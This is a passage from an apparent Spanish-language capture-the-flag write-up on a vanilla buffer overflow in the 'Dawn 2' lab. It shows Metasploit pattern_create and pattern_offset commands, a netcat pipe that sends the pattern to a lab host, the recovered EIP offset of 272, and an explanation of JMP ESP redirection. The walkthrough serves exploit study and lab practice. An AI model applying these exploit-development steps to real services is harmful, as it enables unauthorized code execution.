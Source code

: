 ```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 800
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9..snip..
```

Para enviarlo se puede hacer un pipe con netcat como anteriormente y asi simplificar el envio en lugar de crear un socket con el propio python, que por supuesto, se verá más adelante.

```bash
python2.7 -c "print('$(msf-pattern_create -l 800)'+'\x00')" | nc 192.168.1.88 1985
```

En este caso el EIP no se sobreescribe con las 'A's, sino que se sobreescribe con el valor 316A4130, con eso se procederá a calcular el offset. Haciendo uso de la utilidad `msf-pattern_offset` queda como resultado que el offset = 272.

```bash
msf-pattern_offset -l 800 -q 316A4130
[*] Exact match at offset 272
```

<p align="center"><img src="https://raw.githubusercontent.com/alexfrancow/alexfrancow.github.io/master/images/2021-07-21-Dawn-2-Vanilla-Buffer-Overflow/Pasted%20image%2020210721170311.png" height="500" width="825" /></p>

### Push ESP

Una vez que se conoce cual es el byte justo que empieza a sobreescribir el EIP, se podrá redirigir todo el flujo del programa a la dirección de memoria deseada y de esta manera ejecutar código.

Hay varias formas de lograrlo. Sin embargo, lo más común es encontrar una instrucción JMP ESP, que saltará a la parte superior del Stack Frame, cambiando la ubicación de EIP a la parte superior del puntero ESP y ejecutando todo lo que se envíe después de eso. Otras instrucciones como CALL ESP o PUSH ESP también deberían funcionar.
